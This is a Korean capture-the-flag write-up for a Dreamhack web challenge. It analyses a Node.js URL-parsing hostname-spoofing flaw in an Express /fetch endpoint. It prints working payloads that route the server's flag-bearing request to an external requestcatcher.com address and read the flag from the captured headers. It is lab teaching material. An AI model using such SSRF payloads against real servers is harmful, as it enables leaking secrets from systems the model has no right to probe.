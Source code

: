 # Payload
```
http://host3.dreamhack.games:23044/fetch?url=https://amylo.requestcatcher.com*.localhost
```
# 검색 키워드
- nodejs url parse 취약점
# 해설
## 코드 분석
- index.js 파일을 분석한다.
- 11번째 줄에서 Express 애플리케이션에서 HTTP GET 요청을 처리하는 핸들러를 정의한다.
	- 이 핸들러는 /fetch 경로에 대한 요청을 처리한다.
- 18번째 줄에서 GET 인자로 url 쿼리 파라미터를 urlObject 번수에 저장한다.
- 19번째 줄에서 Node.js 내장 모듈인 url 모듈을 사용하여 URL 파싱을 진행하고, hostname값을 host 변수에 저장한다.
- 21번째 줄에서 host가 `localhost` 와 일치하지 않고, host가 `localhost` 로 끝나지 않으면 `rejected` 메시지를 보내고 끝난다.
	- 혹시라도 에러가 발생하면 `Invalid Url` 문구를 보내고 끝난다.
- 26번째 줄에서 위의 if문을 통과하고 나면, node_fetch 함수를 이용해 GET 메소드로 header에 Flag를 넣어 요청을 보내고, 그 결과를 화면에 보여 준다.

- package.json 파일을 분석한다.
- 여기에서 node-fetch의 버전이 `^2.6.6` 으로 지정되어 있다. 

- url 파싱된 결과가 localhost이면서 실제 요청은 공격자가 원하는 곳으로 보내기 위해서는 url 파싱 중 특수문자를 활용하여 hostname을 속여야 한다. (hostname spoofing)
	- 사용 가능한 특수문자 : `! $ * , ; = `
- hostname을 속여 원하는 곳에 요청을 보내게 하고, 그 요청의 헤더에 포함된 Flag를 가져 오는 것이 핵심이다.

- 여기에서 node.js의 url 라이브러리가 취약하다고 한다. (node.js는 `v19.1.0`, `v18.13.0` 에서 패치되었다고 한다.)
## 익스플로잇
- `/fetch?url=` 뒤에 `localhost:3000` 을 넣어 본다. 맨 처음 나왔던 Hello 메시지가 뜬다.
- 이제 url 호스트네임을 스푸핑해보자.
- 우선 테스트로 google.com에 요청을 보내 보자.
	- Payload : `http://host3.dreamhack.games:20732/fetch?url=https://google.com*.localhost`
	- Result : ![[Pasted image 20240717022606.png]]
	- google로 가긴 간 것 같은데 하위 경로로 `*.localhost` 로 접근하려고 하는 것을 볼 수 있다.
	- 우선 localhost가 아닌 다른 url로 요청을 보내는 데 성공했으니, 헤더 내용을 가져오는데 집중하자.
- 사용할 수 있는 도구는 여러 가지가 있다.
	- 도구 목록
		- [Dreamhack Tools](https://tools.dreamhack.games/)
		- [Request Catcher](https://requestcatcher.com/)
		- 수제 제작 웹서버
	- 드림핵 툴즈나 Request Catcher의 사용법은 크게 다르지 않다.
	- 원하는 url을 입력하고, 생성해 준 URL로 오는 Request의 내용을 볼 수 있게 해 주는 서비스이다.
- Request Catcher를 이용하여 진행하겠다.
	- Payload : `http://host3.dreamhack.games:20732/fetch?url=https://amylo.requestcatcher.com*.localhost`
	- 화면에는 `request caught` 라는 메시지가 표시된다. 정상이다.
	- 이제 Request Catcher에 가 보면 해당 url로 들어온 요청들이 표시된다.![[Pasted image 20240717023754.png]]
	- Cookie에서 Flag를 찾을 수 있다.
# 참조 링크
- [https://toss.tech/article/nodejs-security-contribution](https://toss.tech/article/nodejs-security-contribution)